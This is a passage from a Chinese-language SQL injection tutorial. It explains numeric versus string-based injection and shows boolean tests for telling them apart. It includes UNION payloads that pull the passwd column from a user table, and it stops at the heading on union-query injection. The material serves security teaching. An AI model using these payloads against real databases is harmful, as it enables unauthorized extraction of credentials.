 



## 常见注入分类

### 1. 数字型注入和字符型注入

**两种注入区别**

```mysql
数字型注入查询语句
select * from user where passwd=1;
字符型注入查询语句
select * from user where passwd='1';

两者的主要区别是, 字符型注入在实际操作的时候需要考虑到引号的闭合
如
数字型注入
select * from user where passwd=-1 union select passwd from user;
其payload为: -1 union select passwd from user
字符型注入
select * from user where passwd='-1' union select passwd from user -- ';
其payload为: -1' union select passwd from user -- '
```

**如何判断数字型注入和字符型注入**

通过使用逻辑运算符判断

```mysql
数字型注入
select * from user where passwd=1; #正常返回
select * from user where passwd=1 and 1=1; # 跟上一个返回同样结果
select * from user where passwd=1 and 1=2; # 返回为空

字符型注入
select * from user where passwd='1';
select * from user where passwd='1 and 1=1';# 使用数字型注入的Payload返回空
select * from user where passwd='1' and '1'='1'; # 返回正常页面,则为字符型注入(注意最后的单引号闭合)
select * from user where passwd='1' and 1=1 -- '; #也可使用 注释符号去掉单引号
```



**注**

如果查询语句条件的值使用引号，而值对应的字段的具体的类型为数字型(int 等),情况较为特殊，参考最下文的补充







### 2. 可回显注入



**联合查询注入**
